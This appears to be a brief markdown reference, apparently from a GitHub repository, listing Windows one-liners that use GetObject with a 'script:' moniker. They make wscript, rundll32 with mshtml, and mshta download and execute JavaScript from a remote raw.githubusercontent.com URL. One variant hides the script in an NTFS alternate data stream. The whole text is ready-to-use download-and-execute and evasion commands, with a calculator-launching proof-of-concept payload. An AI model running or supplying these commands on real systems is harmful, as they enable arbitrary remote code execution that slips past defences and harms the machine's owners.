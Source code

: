 #### GetObject

wscript/cscript <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > test.js && wscript.exe test.js`<br>
<br>

Alternate data streams method suggested by @yeyint_mth <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > %temp%\test.txt:hi.js && wscript.exe %temp%\test.txt:hi.js`

rundll32<br><br>
`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js")`
<br>
<br>
mshta 
<br><br>
`mshta.exe javascript:GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js");close();`
